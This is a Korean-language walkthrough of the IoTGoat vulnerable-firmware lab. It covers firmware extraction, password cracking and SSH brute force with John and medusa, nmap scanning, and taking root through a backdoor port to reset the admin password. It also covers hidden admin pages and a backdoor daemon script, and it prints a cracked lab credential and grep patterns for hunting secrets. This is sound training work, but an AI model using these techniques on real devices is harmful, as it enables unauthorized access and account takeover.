

# IoTGoat Write-up

[← Wargame Writeups](../README.md)

IoTGoat 실습 환경을 구성하고 펌웨어·네트워크·웹 인터페이스·업데이트 체인·오래된 구성요소를 분석한 과정입니다. 시행착오와 원본 캡처를 포함해 실제 진행 순서대로 기록했습니다.

> 직접 구성한 격리형 실습 환경을 대상으로 진행했습니다.

## 환경 구성: VM–Host 통신 실패 해결

환경을 설정하는 과정에서 너무 많은 시간과 의지가 갈려나갔고, 결국 연결에 성공하기는 하였다. 그러나, 나를 헷갈리게 하였던 과정은 다음과 같았다.

1. 분명 IoTGOAT 설명란에서는 IoTGOAT_x86.vmdk에 인터넷이 연결이 되어야 하는 상황인데 내 환경에서는 그렇지 못하였었다. 그래서 내가 지금 잘못된 파일을 올린건지 아니면 그냥 vmware에 올리는게 아이었는지 혼동이 오게 되었다.
2. 그래서 wsl에 올리는 건가아 하면서 붙잡다가, 이걸 혹시 binwalk로 추출을 하는 건가하면서 저 다른 버전인 IotGOAT_x86.img.gz로 추출을 진행해서 난리부르스를 하고 있었다. 후에 정적분석용 펌웨어서 rasberry 친구고, IoTGOAT_x86.vmdk가 vmware로 직접 올리는 친구임을 자각하였다. 
3. 그럼 다시 1번의 인터넷 연결문제로 돌아오게 된다. 왜 안되지 하면서 원래 안되는 건가? ㅎ 하면서 1번으로 넘어가서 하드코딩된 비번 문제를 brute force하러 갔다. 
4. 하지만 우리의 john은 자체적으로 시도를 하였으나, 성공하지는 못했다. wordlist가 잘못된 것 같기도하고… 일단 실패하여 라업을 보니 medusa라는 도구를 활용하여 brute force를 진행하는 것을 보게 되었다.
5. 근데 medusa는 ssh나 telnet 네트워크를 활용한 온라인 로그인형 brute force임을 깨닫게 되었다. 또한 라업에서도 이 IoTGOAT_x86.vmdk로 올린 친구와 통신을 하면서 brute force를 진행하였다. 
그렇다. 다시 인터넷 문제로 돌아온다. 
6. 다시 인터넷 연결에 도전을 진행해보았다. 그러나 이번엔 gpt가 캡쳐를 볼 수 있다는 것이 생각나서 캡쳐를 통해 gpt를 활용해보았다. 그래서 처음에 확인한 것은 VMware의 IoTGOAT 에서 확인한 ip addr show였다. 
7. 확인결과 192.168.99.1에 ip가 할당되어 있고, NW주소와 서브넷마스크는 192.168.99.0/24로 되어 있는 것을 볼 수 있었다.
그리고 windows의 cmd 창(호스트)에서 ping 192.168.99.1로 ping을 때렸을 때, 핑이 가지않는 상황이었다. (먼저 ping 8.8.8.8을 활용해서 ICMP가 F/W에 막혀있지 않다는 것을 확인하였다.) 



1. 먼저 확인된 1차 원인은 VMware의 Virtual Networ Editor에서 Host-only에 사용되는 VMnet1 NW 어댑터가 192.168.92.0 이었다는 것이다. 애초에 할당된 NW주소가 다르니 이 GW를 통과하지 못하는 것이었다. 그래서 이를 192.168.99.0으로 할당해주었다. 물론 서브넷 마스크는 /24 이다. 


1. 하지만 여전히 연결은 되지 않는 상황이었다. 이때 gpt가 연결확인용으로 
`arp -a | findstr 192.168.99.1`  커맨드를 주었고, arp를 활용해 broadcast ip를 통해 mac을 전송받았을 수있었는데, vm상에서 ip addr show로 볼 수 있던 mac 주소와 동일한 것을 볼 수 있었다. 
즉, L2상으론 연결은 되고 있지만, L3단에서 무언가 문제가 생기고 있었다.

```c
arp -a | findstr 192.168.99.1 
```


1. 이제 VMnet1을 확인하기 위해 컴퓨터 설정의 어댑터목록에서 ipv4 설정을 확인하던중, 애가 고정 IP 를 받고 있었는데, 자동할당이 192.168.99.1이었다. 
즉, 어댑터도 .1로 할당되어 있고, VM상 IoTgoat도 .1로 할당이 되어 있으니 중복이 나고 있었던 것이었다.


1. 어댑터를 .210으로 변경하니 VM과 호스트 사이의 통신이 되기 시작하였고, 호스트 → VM, VM → 호스트 ping도 잘 나가게 되었다. 
2. 정상적으로 Web 올라온 것을 확인할 수 있었다.


## 1. Hardcoded Credentials Compiled into Firmware

binwalk -Mre 옵션을 통해 추출을 진행하였다.


먼저 passwd 파일을 확인해 날먹이 가능한지 확인을 해보고


비밀번호란이 x로 처리되어 있으니 /etc/shadow 파일을 확인한다.


비밀번호가 MD5($1)로 암호화되어 있고, 이를 John the Ripper로 brute force를 진행할 것이다. 

John the Ripper 다운로드 


rockyou.txt를 다운 받은 뒤, 진행해보았지만 실패하였다.


그래서 그냥 seclists 파일을 다운 받아버렸다. 그중에서 mirai-botnet.txt를 활용할 것이다. 

hash 전용으로 보이는 파일도 보이긴 했는데, 찾아보니까 좀 기본 패스워드, 이런 느낌이라 무작위성 비번에는 약해서 건너뛰려고 한다.


그래서  medusa를 이용한 온라인 로그인형  brute force를 사용하려고 한다. 근데근데 진짜 인터넷 연결하는데 시간이 엄청 잡아먹히게 되었다. gpt 교수님 덕에 성공하였지만, 너무… 너무 많은 시간이 끌리게 되었다. 
(이제 가장 윗 내용이 해당내용이다.)

자 이제 다시 brute force의 시간이다.


/etc/passwd를 확인하고 , root와 iotgoatuser 유저가 있는 것을 볼 수 있다. 어차피 다른 거는 시스템계정이니 무시하자. 

그리고 원래라면 /etc/ssh/sshd.config 에서 PermitRootLogin No / Yes 옵션에 따라 root 원격접속을 차단할 수 있는데, 여기에는 따로 ssh 폴더도, 설정파일도 없었다. 그래서 root도 한 번 brute를 진행해보았는데, 


root 대상으로는 성공하지 못하였다.

이번엔 iotgoatuser를 대상으로 진행해보았는데, 


비밀번호가 7ujMko0vizxv 인 곳에서 찾은 걸을 확인할 수 있었다. 


iotgoatuser 아이디로는 접속에 성공하였다. 

root에 대해서는 일단 seclists에 동봉된 rockyou-75.txt 파일을 이용하여 brute를 진행해 보고 있다. 

한 40000번대를 진행하고 있을 때, 재부팅을 하게 되면서 나가리가 되었다… 근데 이정도 까지면 이 wordlist에는 없을 것 같다는 생각이 들기도 하곤 한다.


### 3번에서 복귀

자 순서가 좀 꼬이게 되었지만, 지금 web 계정을 찾아야 하는 상황이다. 

먼저 www 파일을 확인하였으나, /usr/bin/lua 파일을 참조한다고 나와있었다.
그런데 생각해보면 2번에서 찾은 파일들이 전부 /usr/bin/lua 에 있었다. 그리고 /luci까지 더 들어가고.
만약 이걸 먼저 찾았었다면 2번에서의 수색범위가 좁혀졌을 것 같다. 


```lua
user@lab:~/iotgoat/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root/
usr/lib/lua/luci/controller/admin$ cat index.lua
-- Copyright 2008 Steven Barth <steven@midlink.org>
-- Licensed to the public under the Apache License 2.0.

module("luci.controller.admin.index", package.seeall)

function index()
        local root = node()
        if not root.target then
                root.target = alias("admin")
                root.index = true
        end

        local page   = node("admin")
        page.target  = firstchild()
        page.title   = _("Administration")
        page.order   = 10
        page.sysauth = "root"
        page.sysauth_authenticator = "htmlauth"
        page.ucidata = true
        page.index = true

        -- Empty services menu to be populated by addons
        entry({"admin", "services"}, firstchild(), _("Services"), 40).index = true

        entry({"admin", "logout"}, call("action_logout"), _("Logout"), 90)
end

function action_logout()
        local dsp = require "luci.dispatcher"
        local utl = require "luci.util"
        local sid = dsp.context.authsession

        if sid then
                utl.ubus("session", "destroy", { ubus_rpc_session = sid })

                luci.http.header("Set-Cookie", "sysauth=%s; expires=%s; path=%s/" %{
                        sid, 'Thu, 01 Jan 1970 01:00:00 GMT', dsp.build_url()
                })
        end

        luci.http.redirect(dsp.build_url())
end
```

admin 관련한 파일로 판단되어 gpt에게 분석 결과 root 계정으로 가능할 수도 있을 것 같다라는 판단이 나와 다시 한 번 root 계정에 대해 brute force를 해볼까 한다. 

그전에 혹시해서 sensordata.db 에 있나해서
sqlite3 sensordata.db 커맨드를 통해 진입해서 확인을 해보았으나, 유일한 sensors 테이블에는 아무 것도 없었다. 


→ 의미없는 짓이었다~ 

## 2. Insecure Network Services

NW 서비스를 하면서 그냥 열려있는 포트에 대해서 원격 접근을 한다면, 정보 누출이나 미인증 RCE를 유발할 수도 있다. 

nmap 포트 스캐닝 도구를 통해 먼저 서비스중인 포트를 확인해보려고 한다. 

TCP-SYN을 활용한 스캔 옵션으로 nmap -sS 옵션을 사용하였다. 

TCP는 4개의 포트가 열려있는 것을 볼 수 있다. 


이번엔 nmap -sU -p- -T4 옵션을 활용하여 더 빠른 속도로 UDP 포트를 확인해보았다.
(다만 대상의 설정에 따라 -T4 옵션은 목표의 F/W, IPS, IDS, UTM의 작동을 야기할 수 있다.) 

시간이 너어어어어무 오래걸리는 것 같아서, UDP 0-1023으로 Well-known만 먼저 해보려고 한다.


시간에 비해 결과가…. 엄… 

일단 udp는 두고 tcp를 검사했던 저 옵션에는 -p-를 지정 하지않아 디폴트로 상위 1000개의 포트만을 검사한다는 것을 깨달아서, 다시 검사를 진행하였다. 


22번 은 ssh, 53번은 domain이니 DNS 포트, 80과 443은 각각 http와 https 포트로 well-known 포트다. 그리고 65534번과 5515번은 unknown으로 열려있었다.

먼저 5515번을 접속하였더니 


백도어를 발견했다면서 root 계정으로 접속에 성공하는 모습이었다. 

발견한 다른 포트인 65534번 포트에서는 로그인창이 나타났다. 그래서 1번에서 확보한 iotgoatuser로 그인을 진행해보았더니, 실제 로그인 창이 맞았다. 


### 백도어를 통한 관리자 계정탈취, 관리자 비밀번호 변경

그런데 우리는 여기서 더 나아가야만 했다… 백도어를 발견하고 히히 좋다 라고만 하고 있었지 실질적으로는 아무것도 하지 않았기에 3번에서 로그인창 어케 뚫지 이러고 있었다.

그래서 루트백도어로 진입, passwd 명령어를 활용해 root의 비밀번호를 00000000으로 바꾸었더니,


드디어 진입에 성공하였다. 

## 3. Insecure Ecosystem Interfaces

먼저 ecosystem이 무엇인지부터 모르겠다. 그래서 Ecosystem Interface를 찾아보니, 통신에서의 ecosystem interface는 다른 앱이나 프로그램들간의 연동, 연계를 염두한 설계를 말한다. 

찾아보니 공학적으로 대규모이고 복잡하고 실시간 모니터링이 필요한(원자력 발전소 등) 고에 사용되는 EID(Ecological Interface Design)이 있고, 지금 경우에 해당하는 Digital Ecosystem이라고 따로 또 있다. 혼돈하지 않도록 주의가 필요할 것 같다. 

Digital Ecosystem은 실제 자연생태계가 경쟁하면서도 서로 어우러지는 것을 본따 디지털 세계에서도 서로 다른 프로그램들과도 연동이, 협업이 되게 하자는 개념으로 발전된 것이다. 

어쨌든, 타 연동을 위한 페이지라던가 단순 디버깅이라던가 백도어라던가 필요에 의해서 남아있거나 의도치 않게 남아있는 숨겨진 페이지를 찾아서 유의미한 기능을 하는 페이지를 찾는 것이다. 

관리자의 숨겨진 웹페이지를 찾아보려고 한다.


- 찾는 패턴 형식자들에 대한 설명
    
    # 각 패턴(형식자) 설명 — 왜 숨겨진 페이지 탐색에 유용한가, 무엇을 grep할지, 해석 방법
    
    좋아 — `cgi-bin`, `*.lua`, `*.asp` 같은 **탐색에 유용한 문자열(패턴)** 들을 하나씩 설명할게. 각 항목마다 **의미**, **왜 찾는가**, **유효한 grep/정규식 예시**, **흔한 오탐/주의점**, 그리고 **발견했을 때 다음으로 할 행동**을 짧고 실용적으로 정리했어.
    
    ---
    
    # 1. `cgi-bin` / CGI 스크립트
    
    - 의미: 전통적인 웹서버의 Common Gateway Interface 디렉토리. 서버에서 동적 스크립트(Perl, C, sh 등)를 실행하는 위치.
    - 왜 찾나: 제조사·디버그용 스크립트, 숨겨진 유틸리티, 업로드/펌웨어 복구 엔드포인트가 위치하는 경우가 많음.
    - grep 예시:
        - `grep -Rni '/cgi-bin/' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i '/cgi-bin/|\.cgi\b'`
    - 오탐/주의: 문자열 자체는 문서(매뉴얼)나 로그에도 있을 수 있음. 실제로 `.cgi` 파일이 있거나, 서버 config에서 핸들러로 연결되어야 의미 있음.
    - 다음 액션: 해당 경로를 `ffuf`/`curl`로 호출해 상태코드·응답 바디 확인. CGI 스크립트이면 입력 파라미터(쿼리/POST)로 기능을 조사.
    
    ---
    
    # 2. `.lua` / Lua 스크립트
    
    - 의미: 임베디드 장치에서 자주 쓰이는 경량 스크립트 언어(웹 UI 로직, 라우터, Luci 등).
    - 왜 찾나: 라우트 등록, 핸들러, 내부 API가 Lua 코드에 하드코딩되어 있는 경우가 많음 — 숨겨진 엔드포인트 후보가 자주 보임.
    - grep 예시:
        - `rg -n --hidden '\.lua\b' _firmware.bin.extracted/`
        - `grep -RniE 'function .+\\(|router:|uri:|dispatch:' _firmware.bin.extracted/`
    - 오탐/주의: Lua는 설정 스크립트나 메시지 템플릿에도 사용됨. 라우트 등록을 찾을 때는 `router`, `dispatch`, `http.*` 같은 키워드를 같이 찾으면 정확도가 높음.
    - 다음 액션: Lua 파일 열어 `require`, `dispatch`, `http` 관련 부분과 hard-coded paths(`/admin`, `/api/...`)을 찾는다. 발견된 엔드포인트로 요청 테스트.
    
    ---
    
    # 3. `.php`, `.asp`, `.aspx`, `.pl` 등 서버사이드 스크립트
    
    - 의미: 전통적 웹 백엔드 스크립트 확장자. PHP/ASP/Perl 파일이 있으면 동적 페이지/관리자 인터페이스일 확률 높음.
    - 왜 찾나: 관리자 페이지·업로드·백업·시리얼/디버그 인터페이스가 스크립트 파일로 남아있는 경우가 많음.
    - grep 예시:
        - `rg -n '\.php\b|\.asp\b|\.aspx\b|\.pl\b' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i '\.php|/admin|login|password'`
    - 오탐/주의: 서브 시스템 설명문서나 예제 코드에도 확장자가 등장할 수 있음. 실행 가능한 스크립트 파일 유무(실제 파일/바이너리 내 포함)를 확인해야 함.
    - 다음 액션: 실제 파일이 있으면 파일 내용 확인 → 폼/파라미터 파악 → `curl`/`ffuf`로 엔드포인트 검증.
    
    ---
    
    # 4. API 관련 키워드: `/api/`, `/rest/`, `/v1/`, `/internal/`
    
    - 의미: REST/HTTP API 엔드포인트 패턴. 내부용 API나 관리자용 API가 숨겨져 있는 경우 발견됨.
    - 왜 찾나: UI에 보이지 않는 백엔드 엔드포인트(특권 API)들이 여기 있음. 토큰/키 없이도 일부 동작할 수 있는 경우가 있음.
    - grep 예시:
        - `rg -n '/api/|/rest/|/v[0-9]+/|/internal/' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i '/api/|\"/v1/\"|/internal'`
    - 오탐/주의: 공개 API 문서 문자열도 포착될 수 있음. 응답 헤더/바디로 실제 동작을 검증하자.
    - 다음 액션: 엔드포인트 목록으로 `ffuf` 또는 `curl` 대량 검사. 인증 방식(토큰/쿠키) 있는지 확인.
    
    ---
    
    # 5. `robots.txt`, `sitemap.xml`, `.well-known`
    
    - 의미: 검색 엔진용 경로/허용·차단 지시 파일. 숨겨진 경로가 의도치 않게 `Disallow`에 적혀있을 수 있음.
    - 왜 찾나: 개발자가 노출하지 않을 페이지 경로를 `robots.txt`에 명시해두면 금광. `sitemap.xml`도 전체 URL 리스트 제공 가능.
    - grep 예시:
        - `rg -n 'robots\.txt|sitemap\.xml|\.well-known' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i 'robots.txt|sitemap.xml|well-known'`
    - 오탐/주의: 없어도 괜찮음. 있어도 URL이 상대 경로일 수 있으니 정규화 필요.
    - 다음 액션: `curl http://target/robots.txt` 로 확인, `sitemap.xml` URL 리스트 추출 후 파싱해 직접 테스트.
    
    ---
    
    # 6. 서버/프레임워크 이름: `uhttpd`, `lighttpd`, `boa`, `nginx`, `lxc`, `luci`
    
    - 의미: 어떤 웹서버/프레임워크가 사용되는지 알려주는 키워드. 설정 파일 경로·루트 위치 유추 가능.
    - 왜 찾나: 서버별 디폴트 문서루트, CGI 폴더, config 파일 이름이 정형화되어 있어서 집중 조사 포인트가 됨.
    - grep 예시:
        - `rg -n 'uhttpd|lighttpd|boa|nginx|mini_httpd|luci' _firmware.bin.extracted/`
        - `grep -RniE 'server_root|document_root|wwwroot|htdocs' _firmware.bin.extracted/`
    - 오탐/주의: 문자열만으로는 버전/설정이 확정되지 않음. 설정 파일(예: `uhttpd.conf`, `lighttpd.conf`)을 찾아야 함.
    - 다음 액션: config 파일에서 `document_root`, `cgi-bin` 경로, 포트, 가상호스트 정보를 확인.
    
    ---
    
    # 7. 인증/비밀번호 키워드: `password`, `passwd`, `admin`, `token`, `auth`, `session`, `cookie`
    
    - 의미: 인증 로직, 기본 계정, 토큰발급, 세션 이름 등 관련 문자열.
    - 왜 찾나: 쿠키 이름·토큰 파라미터·하드코딩된 기본 비밀번호가 남아있을 수 있음.
    - grep 예시:
        - `rg -n 'password|passwd|admin|token|auth|session|cookie' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i 'password|passwd|token|auth'`
    - 오탐/주의: 단어만으로는 실사용 여부 불명. 평문 비밀번호가 나오면 즉시 중요.
    - 다음 액션: 발견된 값이 cred 형태면 실제 로그인 시도(허가된 대상에서만). 토큰 발급 흐름을 찾아 재현.
    
    ---
    
    # 8. 업데이트/업그레이드 관련: `upgrade`, `firmware`, `upload`, `/update.cgi`
    
    - 의미: 펌웨어 업로드·업데이트 관련 엔드포인트. 제조사/공장용 복구 페이지가 여기 있을 가능성.
    - 왜 찾나: 권한이 낮아도 펌웨어 업로드·명령 실행 등 위험한 기능이 남아있을 수 있음.
    - grep 예시:
        - `rg -n 'upgrade|firmware|upload|update' _firmware.bin.extracted/`
        - `strings firmware.bin | egrep -i 'upgrade|firmware|upload|update.cgi'`
    - 오탐/주의: 문서 속 설명 문구에도 잘 등장함. 단, 실제 파일/스크립트가 있는지 확인 필요.
    - 다음 액션: 업로드 핸들러의 파라미터·인증 요구를 분석. 취약점(인증 우회, arbitrary file write) 가능성 확인.
    
    ---
    
    # 9. 디버그/팩토리 문자열: `factory`, `diag`, `debug`, `test`, `maintenance`
    
    - 의미: 공장 모드·진단 페이지·디버그 콘솔 관련 키워드.
    - 왜 찾나: 공장 모드는 인증이 약하거나 초기화·특권 명령을 노출하는 경우가 많음.
    - grep 예시:
        - `rg -n 'factory|diag|debug|test|maintenance' _firmware.bin.extracted/`
    - 오탐/주의: 테스트용 텍스트/주석에서도 자주 등장하므로 맥락(근처의 경로/핸들러)을 같이 봐야 함.
    - 다음 액션: 발견된 경로를 실제 요청해 보고 예상되는 파라미터나 출력(Serial 로그 등)을 확인.
    
    ---
    
    # 10. 바이너리 함수/라우트 키워드 (C 기반 라우트 등록)
    
    - 의미: 임베디드 C 바이너리에서 라우트 등록에 사용되는 문자열(예: `register_handler`, `add_route`, `http_register`)
    - 왜 찾나: 동적 라우팅을 구현할 때 경로와 핸들러 이름이 근처에 함께 존재하는 경우가 많아, 숨긴 엔드포인트를 찾아내기 좋음.
    - grep 예시:
        - `strings firmware.bin | egrep -i 'register_handler|add_route|http_register|register_uri|on_request'`
    - 오탐/주의: 모든 문자열이 라우팅을 의미하는 건 아님. 주변 문자열(경로 패턴)을 같이 확인.
    - 다음 액션: 해당 문자열 주변(앞뒤 3~5줄)을 살펴 실제 경로가 노출돼 있는지 확인.
    
    ---
    
    # 실무 팁 — 검색 조합과 우선순위
    
    1. **경로 패턴 먼저**: `/admin|/login|/api|/cgi-bin` 같은 경로 형태를 먼저 뽑아 candidates.txt 생성.
    2. **파일 확장자 확인**: `.php`, `.cgi`, `.lua`, `.js` 파일이 실제로 존재하는지 체크.
    3. **서버 설정 파악**: `document_root`, `uhttpd.conf`, `lighttpd.conf` 등이 있으면 우선 조사.
    4. **문맥 보기**: 단어 하나만 잡히면 오탐이므로 `strings`나 `rg -C 3`로 주변 문맥(경로·함수명·매개변수)을 확인.
    5. **자동화 후 사람 눈검증**: `endpoints_admin.txt`를 만들어 `ffuf`로 probe → 응답 코드/크기/문자열로 후보 우선순위 매기기.
    
    ---
    
- /usr/lib/lua/luci/controller/upnp.lua
    
    뭔가 controller 어쩌구 해서 파일을 확인해보았으나
    
    
    
    딱히 뭐가 있어보이지는 않았다.
    
    - 파일 내용
        
        ```lua
        user@lab:~/iotgoat/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root$ cat usr/lib/lua/luci/controller/upnp.lua
        -- Copyright 2008 Steven Barth <steven@midlink.org>
        -- Copyright 2008 Jo-Philipp Wich <jow@openwrt.org>
        -- Licensed to the public under the Apache License 2.0.
        
        module("luci.controller.upnp", package.seeall)
        
        function index()
                if not nixio.fs.access("/etc/config/upnpd") then
                        return
                end
        
                local page
        
                page = entry({"admin", "services", "upnp"}, cbi("upnp/upnp"), _("UPnP"))
                page.dependent = true
        
                entry({"admin", "services", "upnp", "status"}, call("act_status")).leaf = true
                entry({"admin", "services", "upnp", "delete"}, post("act_delete")).leaf = true
        end
        
        function act_status()
                local uci = luci.model.uci.cursor()
                local lease_file = uci:get("upnpd", "config", "upnp_lease_file")
        
                local ipv4_hints = luci.sys.net.ipv4_hints()
        
                local ipt = io.popen("iptables --line-numbers -t nat -xnvL MINIUPNPD 2>/dev/null")
                if ipt then
                        local upnpf = lease_file and io.open(lease_file, "r")
                        local fwd = { }
                        while true do
                                local ln = ipt:read("*l")
                                if not ln then
                                        break
                                elseif ln:match("^%d+") then
                                        local num, proto, extport, intaddr, intport =
                                                ln:match("^(%d+).-([a-z]+).-dpt:(%d+) to:(%S-):(%d+)")
                                        local descr = ""
        
                                        if num and proto and extport and intaddr and intport then
                                                num     = tonumber(num)
                                                extport = tonumber(extport)
                                                intport = tonumber(intport)
        
                                                if upnpf then
                                                        local uln = upnpf:read("*l")
                                                        if uln then descr = uln:match(string.format("^%s:%d:%s:%d:%%d*:(.*)$", proto:upper(), extport, intaddr, intport)) end
                                                        if not descr then descr = "" end
                                                end
        
                                                local host_hint, _, e
        
                                                for _,e in pairs(ipv4_hints) do
                                                        if e[1] == intaddr then
                                                                host_hint = e[2]
                                                                break
                                                        end
                                                end
        
                                                fwd[#fwd+1] = {
                                                        num     = num,
                                                        proto   = proto:upper(),
                                                        extport = extport,
                                                        intaddr = intaddr,
                                                        host_hint = host_hint,
                                                        intport = intport,
                                                        descr = descr
                                                }
                                        end
                                end
                        end
        
                        if upnpf then upnpf:close() end
                        ipt:close()
        
                        luci.http.prepare_content("application/json")
                        luci.http.write_json(fwd)
                end
        end
        
        function act_delete(num)
                local idx = tonumber(num)
                local uci = luci.model.uci.cursor()
        
                if idx and idx > 0 then
                        luci.sys.call("iptables -t filter -D MINIUPNPD %d 2>/dev/null" % idx)
                        luci.sys.call("iptables -t nat -D MINIUPNPD %d 2>/dev/null" % idx)
        
                        local lease_file = uci:get("upnpd", "config", "upnp_lease_file")
                        if lease_file and nixio.fs.access(lease_file) then
                                luci.sys.call("sed -i -e '%dd' %s" %{ idx, luci.util.shellquote(lease_file) })
                        end
        
                        luci.http.status(200, "OK")
                        return
                end
        
                luci.http.status(400, "Bad request")
        end
        ```
        

그래도 upnp에 대해서 좀 찾아보니까 포트포워딩을 해주는 역할로, 특별한 설정이나 설치없이 다양한 네트워크 기기 간 통신할 수 있도록 설계된 프로토콜이라고 한다. 그래서 만약 외부에서 통신연결을 요청을 하였을 때, upnp가 열려있다면, 그냥 아무런 검증없이 기기를 연결시켜버리게 되는 것이다.

그리고 추가로 알게된 사실은 

UPnP  subscribe 함수의 콜백 헤더값이 임의 조작 가능하여 발생하는 데이터 유출 및 DoS 취약점이 있다는 것이다. (CVE-2020-12695) 

뭐 어쨌든 중요한 거는 여기서 upnp를 위한 스크립트가 있는 것을 보아 upnp를 사용할 수 있지 않을까라는 생각이 들긴하였다. 


아예 controller 쪽으로 타고 들어가 봤는데, 뭔가 재미있어 보이는 것들이 같이 있었다. 


uci.lua 에서는 에러코드들도 나왔었는데, 


이렇게 Entry에 없는 것이면 404를 띄우고 하는 것 같다. 

그래서 인가 Entry에 있는 admin을 넣어도 에러가 생기지 않는다. 아마 이거 관련한 경로가 더 있지 않을까 싶다. 


재미있어 보이는 것을 찾았다.


iotgoat 디렉 내의 iotgoat.lua 파일에서 Entry가 있는데, admin/iotgoat/cmdinject 같은 대놓고인 친구들이 있다.


다만… 로그인이 안되어서 그런가 보이지는 않는 것 같다. 

… 그런데 생각해보니까 지금 현 상황은 iotgoatuser 라는 계정은 ssh로 통해 정상 로그인이 된 상황이다. 그러나 web에 대한 계정은 실패한 상황이다. 그리고 이 차이점을 gpt에게 물어보니, iotgoat의 1번문제가 이 의도를 가지고 있다는 평이 나왔다. 

시스템 계정과 web 계정은 서로 다르며, 이 하드코딩된 password라는 것을 이제 이 지점부터 찾는 것이라고. 즉, 아직 1번은 끝나지 않은 것이었다.  

### 다시 복귀(이 파트는 삽질 파트)

이게 root 계정을 확보해야하는지, 우회를 해야하는지 확인지 되지 않는 상황이다. root 계정확보는 일단 아닐 가능성이 높기에 이번에는 위에 숨겨진 페이지를 찾는 것처럼 로그인 벡터를 확인하여 우회여지가 있는지 확인할 것이다. 

로그인 페이지 관련 파일을 찾던 중, 기존 발견했던 /usr/lib/lua/luci/controller/admin 내에서 index.lua를 다시 확인하였고, 저 함수 index() 부분에서 page.sysauth에 root을 id로, htmlauth 라고 되어 있는 곳을  pw로 보고 gpt에게 분석을 맡기니 htmlauth 는 모듈일 가능성이 크다고 얘기해 주었다.

혹시 몰라 htmlauth 를 pw로 로그인창에 입력하였을 때, wrong pw가 뜨긴했다. 


#### 핵심 개념 (요약)

- `page.sysauth = "root"` → 웹에서 인증할 때 **사용자 `root`** 를 요구할 가능성이 높다.
- `page.sysauth_authenticator = "htmlauth"` → `htmlauth`라는 이름의 **인증기(함수/모듈)** 를 사용한다는 선언.
- **`htmlauth`는 파일명이 아니라 모듈/함수 이름**(예: `/usr/lib/lua/luci/<...>`에 구현체가 있음).
- 따라서 해야 할 일: **`htmlauth` 구현을 찾아서(어디서 어떤 소스/방식으로 인증하는지) 확인** → 그 다음 적절히 대응(루트 비밀번호 확보/변경 또는 권한상승).

grep -R을 활용하여 htmlauth 문자열 검색 


범위를 넓혀서 auth 문자열을 검색


대체적으로 dispatcher.lua에 대부분이 집중되어 있는 상태이고, authen() 내 sys.user.checkpasswd가 있는 것이 보인다. 그래서 grep -R로 checkpasswd 문자열 검색하였더니 sys.lua에 function으로 정의되어 있는 것을 볼 수 있다. 


nixio라는 것과 연관된 pw 가져오는 함수를 확인, 위의 checkpasswd 함수는 아니긴 하다.
!과 x를 거르는 것을 보아 /etc/passwd나 ./shadow에서 x로 표기된 계정이나 비번 앞에 ! 을 붙어서 비활성화를 시켜두어 비번이 없는 계정에 대한 분기같다. 


어이쿠 checkpasswd가 위의 함수를 불러온다. 


### 해결 완료(다시 3번 진행)

정석은 2번에서 백도어를 찾았으니 그를 통해 관리자 pw를 변경하는 거였다 ㅎㅎ; 

이제 앞서 실패했던 iotgoat.lua의 index()를 넣어볼 때가 왔다. 


/admin/iotgoat를 URL에 추가하니 단순 버튼 클릭으로 갈 수 없었던 숨겨진 페이지가 활성화된 것을 볼 수 있다. 로그인을 하지 못했을 때는 작동하지 않았던 페이지였다. 

/admin/iotgoat/cmdinject 도 동일한 페이지가 나온다.


/cam (이 친구는 우측 상단 IoTGoat 선택창 내 Camera로 진입가능하다. 


/door (위 cam과 동일하다.) 


/webcmd → XSS가 된다. 


#### 재정비


IotGoat의 challenge 목록을 봤을 때, 3번에서 숨겨진 사이트를 찾는 것은 첫번 째 항목임을 알 수 있다. 그리고 부팅시 설정되는 데몬중에 backdoor용이 있다고 해서 찾아볼려고 한다.

일단 부팅시 설정되는 데몬이라고는 하니까 /etc/rc.d 를 먼저 가봤는데 전부 init.d로 링크되어 있어서 init.d로 이동해서 확인해보았다. 


dropbear가 뭔가했더니 SSH 서버 데몬으로써 ssh 연결을 지원해주는 친구였다. 

gpio_switch는 General Puerpose I/O로, 물리적 스위치나 LED 등의 상태를 부팅시 설정한다.


/var/run/led.state 등을 사용하는 것을 볼 수 있다. 

- shellback 코드
    
    ```bash
    user@lab:~/iotgoat/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/init.d$ cat shellback
    #!/bin/sh /etc/rc.common
    
    START=95
    PROG=/usr/bin/shellback
    
    section_enabled() {
            config_get_bool enabled "$1" 'enabled' 0
            [ $enabled -gt 0 ]
    }
    
    start_instance() {
            local cfg="$1"
            local duration
            local enabled
    
            config_get_bool enabled "$cfg" 'enabled' 0
            config_get duration "$cfg" 'duration' 0
    
            [ $enabled -gt 0 ] || return 1
    
            # Usually, procd should be used for services running in the background.
            eval service_start "'$PROG' $duration"
    }
    
    stop_instance() {
            local cfg="$1"
            service_stop "$PROG"
    }
    
    start() {
            config_load 'shellback'
            config_foreach start_instance 'shellback'
    }
    
    stop() {
            config_load 'shellback'
            config_foreach stop_instance 'shellback'
    }
    ```
    

뭔가 이름부터 희얀한 친구를 발견했다. 제미나이도 분석을 했을 때 백도어용 데몬일 가능성이 있다고 평가한다. 

일단 여기서 참조하는 /usr/bin/shellback 도 확인해봐야겠다. 


일단 존재를 확인할 수 있다. 그런데 ELF 파일이라서 ida로 한 번 구경해보려고 한다. 


